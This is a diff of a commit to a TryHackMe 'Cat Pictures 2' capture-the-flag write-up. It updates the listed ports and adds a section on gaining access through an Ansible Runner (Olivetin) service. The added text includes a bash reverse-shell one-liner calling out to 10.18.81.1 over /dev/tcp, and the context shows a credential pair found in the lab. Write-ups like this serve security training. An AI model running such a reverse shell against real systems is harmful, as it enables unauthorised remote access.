

Before and after one commit to ACHUX21/Writeups, a Markdown page: TryHackMe/Cat Pictures 2/Readme.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/TryHackMe/Cat Pictures 2/Readme.md
+++ b/TryHackMe/Cat Pictures 2/Readme.md
@@ -36,7 +36,7 @@ Service detection performed. Please report any incorrect results at https://nmap
 ##
     *80 — lychee*
     *8080 — python http server*
-    *3000 — gitea*
+    *22,222 — ssh*
 </br>
 
 ### Performing a scan using Dirsearch
@@ -146,3 +146,17 @@ ansible runner (olivetin): port 1337
 </br>
  samarium:TUmhyZ37CLZrhP
 </br>
+
+### Upon obtaining this information, we realized that there is a Gitea server running on port 3000, and we have obtained valid credentials for it.
+
+![Screenshot from 2023-07-06 21-31-32](https://github.com/ACHUX21/Writeups/assets/130113878/d5da60f1-a1cd-4731-af5d-89b6eccc7f87)
+
+# Gaining access
+![image](https://github.com/ACHUX21/Writeups/assets/130113878/23cfac7c-5b54-494f-a91b-be69ffc138f1)
+</br>
+
+Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the execution of Ansible playbooks, I intend to replace the existing "echo" command with a reverse shell.
+
+```bash
+bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
+```
````
